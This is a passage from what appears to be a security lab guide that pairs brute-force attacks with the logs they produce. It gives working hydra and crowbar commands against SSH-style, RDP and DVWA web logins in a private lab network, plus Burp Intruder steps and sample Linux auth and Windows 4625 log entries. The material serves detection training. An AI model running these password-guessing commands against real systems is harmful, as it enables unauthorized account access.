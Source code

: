 #### Expected Logs Generated
```bash
# /var/log/auth.log on Ubuntu target
Dec 06 10:15:23 ubuntu sshd[1234]: Failed password for vulnerable from 10.0.2.15 port 45678 ssh2
Dec 06 10:15:25 ubuntu sshd[1235]: Failed password for vulnerable from 10.0.2.15 port 45679 ssh2
Dec 06 10:15:27 ubuntu sshd[1236]: Failed password for admin from 10.0.2.15 port 45680 ssh2
Dec 06 10:15:29 ubuntu sshd[1237]: Failed password for root from 10.0.2.15 port 45681 ssh2
```

### Phase 2: RDP Brute Force Attack (15 minutes)

#### Attacker Actions
```bash
# Target: Windows RDP service
# Tool: Crowbar/Hydra

# RDP brute force
crowbar -b rdp -s 10.0.2.102/32 -u vulnerable -C /usr/share/wordlists/custom/passwords.txt

# Alternative with Hydra
hydra -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.0.2.102 -t 4
```

#### Expected Logs Generated
```powershell
# Windows Event Log - Security (Event ID 4625)
Event ID: 4625
Task Category: Logon
Level: Information
Description: An account failed to log on
Account Name: vulnerable
Source Network Address: 10.0.2.15
Failure Reason: Unknown user name or bad password
```

### Phase 3: Web Application Brute Force (20 minutes)

#### Attacker Actions
```bash
# Target: DVWA login form
# Tool: Hydra, Burp Suite

# Web form brute force
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.2.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -t 10

# Using Burp Suite Intruder
# 1. Capture login request
# 2. Send to Intruder
# 3. Set payload positions
# 4. Load password list
# 5. Start attack
```
